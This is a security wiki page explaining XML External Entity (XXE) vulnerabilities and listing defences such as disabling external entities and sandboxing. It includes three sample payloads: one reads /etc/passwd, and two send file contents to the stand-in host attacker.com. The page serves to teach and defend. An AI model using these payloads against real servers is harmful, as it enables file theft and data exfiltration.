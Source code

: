 ```yaml
---
title: Haxoris Wiki
draft: false
date: 2024-01-23
tags:
  - XML
  - XXE
  - Vulnerability
  - Security
---
```


[Back to Website](https://haxoris.com/)

# Haxoris Wiki

[Print this book](https://haxoris.com/haxoris-wiki/print.html)

XML External Entity (XXE) vulnerabilities happen when an application uses XML input that refers to external things. By changing these external entity declarations, attackers can read local files or start network requests from the server. In very bad cases, they can even control the computer from far away. XXE usually takes advantage of parsing libraries or features in XML processors that automatically get external resources without checking them well enough.

These attacks are very dangerous because XML parsers might automatically expand entities, download remote content, or even look at system files. If an attacker can control or give XML data (like through file uploads or API calls), and the server doesn't set up its XML parser safely, the attacker can use XXE to steal sensitive data or interact with internal services.

A typical XXE attack might include a DOCTYPE declaration that refers to a system file:

```

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [\
  <!ENTITY xxe SYSTEM "file:///etc/passwd">\
]>
<root>
  <data>&xxe;</data>
</root>

```

When an unsafe XML parser uses this, it tries to read `/etc/passwd` from the server's file system and then puts its content in the parsed output. The attacker can then access sensitive local files.

Attackers can make an XML parser load an external resource from a remote server that they control:

```

<!DOCTYPE foo [\
  <!ENTITY xxe SYSTEM "http://attacker.com/secret?file=/etc/passwd">\
]>
<root>
  <data>&xxe;</data>
</root>

```

Even if the application's response doesn't directly return the file contents, the attacker's server receives a request that reveals information (like which files exist or open ports) or steals data, depending on how the parser works.

Some XML parsers allow special entities in the DTD, which can be used to sneak in harmful payloads or access environment variables:

```

<!DOCTYPE root [\
  <!ENTITY % file SYSTEM "file:///etc/hostname">\
  <!ENTITY % eval "<!ENTITY exfil SYSTEM 'http://attacker.com/?host=%file;'>">\
  %eval;\
]>
<root>&exfil;</root>

```

This sequence can start network requests that contain sensitive server data to an external URL.

Here are some ways to prevent XXE attacks:

1. **Disable External Entity Resolution**
- Set up the XML parser to not allow or ignore external entities.
- For example, in Java, disable DTDs and set `XMLConstants.FEATURE_SECURE_PROCESSING` to true.
- Each language or parser usually has settings or flags to turn off external entity expansion.
1. **Use Less Complex Data Formats**
- If possible, don't use XML and its complex features.
- Consider using JSON or other formats that don't include entity expansion by default, which reduces the risk of attack.
1. **Implement Whitelisting and Validation**
- If external entities are really needed, make a list of allowed resources or schemas.
- Check XML input against a safe schema that doesn't allow external references.
1. **Enforce Least Privilege and Sandboxing**
- Run the application with the fewest file system and network permissions possible, so that even if XXE is tried, it has limited access to files or internal endpoints.
- Use containerization or chroot environments to limit the application's view of the file system.

[Reference](https://haxoris.com/haxoris-wiki/print.html)
